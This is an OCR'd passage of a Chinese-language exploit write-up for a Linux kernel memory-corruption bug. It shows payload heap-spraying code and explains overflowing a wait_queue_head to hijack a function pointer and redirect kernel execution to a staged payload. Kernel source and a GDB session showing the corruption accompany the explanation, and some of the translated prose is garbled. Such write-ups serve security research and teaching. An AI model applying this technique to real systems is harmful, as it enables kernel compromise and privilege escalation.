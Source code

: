 ```
  payload_sprayer = SprayerThread(args.target, 'payload sprayer')
  payload_sprayer.set_length(_3mb)
  payload_sprayer.set_spray_content(payload)
  payload_sprayer.start()
  leaker.wait_for_one()
  sprayers.append(payload_sprayer)
  log(f'Payload placed @ {hex(addr_payload)}')
  y += 1
```  
  
我的最后一个漏洞利用Zenith溢出了由 Linux 内核的套接字堆栈放置的相邻  
wait_queue_head_t.head.next结构，该结构具有在我的控制下制作的地址  
wait_queue_entry_t （  
Trasher漏洞利用代码中的类）。这是结构体的定义：  
```
struct wait_queue_head {
  spinlock_t    lock;
  struct list_head  head;
};

struct wait_queue_entry {
  unsigned int    flags;
  void      *private;
  wait_queue_func_t func;
  struct list_head  entry;
};
```  
  
这个结构有一个函数指针，  
func我用它来劫持执行并将流程重定向到一个固定位置，在一个大的内核堆块中，我之前在其中暂存了有效负载（  
0x83c00000在漏洞利用代码中）。调用函数指针的函数  
func是  
__wake_up_common，您可以在下面看到它的代码：  
```
static void __wake_up_common(wait_queue_head_t *q, unsigned int mode,
      int nr_exclusive, int wake_flags, void *key)
{
  wait_queue_t *curr, *next;

  list_for_each_entry_safe(curr, next, &q->task_list, task_list) {
    unsigned flags = curr->flags;

    if (curr->func(curr, mode, wake_flags, key) &&
        (flags & WQ_FLAG_EXCLUSIVE) && !--nr_exclusive)
      break;
  }
}
```  
  
q->head.next/prev  
 这就是 GDB损坏后的样子：  
```
(gdb) break *__wake_up_common+0x30 if ($v0 & 0xffffff00) == 0xdeadbe00

(gdb) break sock_recvmsg if msg->msg_iov[0].iov_len == 0xffffffff

(gdb) c
Continuing.
sock_recvmsg(dst=0xffffffff85173390)

Breakpoint 2, __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
3375    kernel/sched/core.c: No such file or directory.

(gdb) p *q
```